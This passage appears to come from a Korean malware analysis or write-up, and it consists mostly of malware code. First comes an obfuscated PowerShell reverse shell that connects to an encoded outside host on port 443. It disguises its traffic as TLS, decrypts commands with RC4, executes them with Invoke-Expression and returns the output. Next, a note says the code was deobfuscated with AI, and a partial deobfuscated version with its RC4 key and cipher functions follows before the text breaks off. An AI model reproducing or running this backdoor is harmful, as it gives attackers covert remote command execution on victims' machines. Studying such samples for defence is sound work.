 ```powershell
             $BB8BBB88B8B8B888 = [byte[]] ([BitConverter]::GetBytes($BB8B8BBBB88B8B8B.Length))
        [Array]::Reverse($BB8BBB88B8B8B888)
     $BBB88BBB888B8B8B = @(0x01) + $BB8BBB88B8B8B888[1..3] + $BB8B8BBBB88B8B8B
        $B88B888B8BB8BBBB = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBB88BBB888B8B8B.Length))
         [Array]::Reverse($B88B888B8BB8BBBB)
                      $BBB888888BB88B88 = @(0x16,
                   0x03, 0x01) + $B88B888B8BB8BBBB + $BBB88BBB888B8B8B
       return ,$BBB888888BB88B88
                 }
 $BBBB8BBBBBB8B88B = New-Object System.Net.Sockets.TcpClient
                    $BBBB8BBBBBB8B88B.Connect((IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(5,7,25,2,25,3,15,25,5,7,7) -BB8BB8B8BBB8B8B8 55), ((50 * 9) - (11 * 2)) + [math]::Pow(2, 3) + [math]::Sqrt(49))
      $BBBB888888B88BBB = $BBBB8BBBBBB8B88B.GetStream()
 $BB88888BB8B8B8BB = llIIlllllIIIlllI
        $BBBB888888B88BBB.Write($BB88888BB8B8B8BB, 0, $BB88888BB8B8B8BB.Length)
        $B8B888BB8B8888BB = New-Object byte[] 16384
          $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, $B8B888BB8B8888BB.Length) | Out-Null
                  while ($true) {
              $B8B888BB8B8888BB = New-Object byte[] 16384
      try {
                     $B888BBB8B8B88B8B = $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, 16384)
                 } catch {
                    break
              }
                        $BBBB8888BBBBB8BB = $B8B888BB8B8888BB[5..($B888BBB8B8B88B8B - 1)]
                $B8B88B8BB888BBB8 = [System.Text.Encoding]::UTF8.GetString((lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $BBBB8888BBBBB8BB))
                         if ($B8B88B8BB888BBB8 -eq (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(109,112,97,124) -BB8BB8B8BBB8B8B8 8)) { break }
                      try {
                             $BB88B8B8BBBB888B = (Invoke-Expression $B8B88B8BB888BBB8 2>&1) | Out-String
                      } catch {
                   $BB88B8B8BBBB888B = (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(186,141,141,144,141) -BB8BB8B8BBB8B8B8 255)
      }
          $BBBB8BB88BB888B8 = lllIIlIIlIllllll -B888BBBBB8B8B8BB $BB88B8B8BBBB888B.Trim()
                       $BBBB888888B88BBB.Write($BBBB8BB88BB888B8, 0, $BBBB8BB88BB888B8.Length)
            }
              $BBBB888888B88BBB.Close()
                $BBBB8BBBBBB8B88B.Close()
```

해당 코드는 ai를 통해 난독화 해제하였습니다.

```powershell
$RC4Key = 0xf1,0x6e,0xcd,0xc6, 0x79, 0x4c, 0x66, 0xd1, 0x02,0xf8, 0x33, 0xc4, 0x86,0xe7, 0xa4,0x35, 0x8d,0x69, 0xbd, 0xd2, 0x1d, 0x50, 0xf5, 0xfb, 0xdf, 0xec, 0xaf, 0x0b, 0x9e, 0x53,0xa4, 0xd3

# RC4 또는 유사한 XOR 기반 암호화/난독화에 사용되는 함수
function XORDecryptBytes {
    param([int[]]$EncryptedBytes, [int]$XORKey)
    $DecryptedString = ""
    foreach ($Byte in $EncryptedBytes) {
        $DecryptedString += [char]($Byte -bxor $XORKey)
    }
    return $DecryptedString
}

# RC4 암호화/복호화 알고리즘의 핵심 로직 (KSA 및 PRGA)
function RC4 {
    param (
        [byte[]]$Key,
        [byte[]]$Data
```
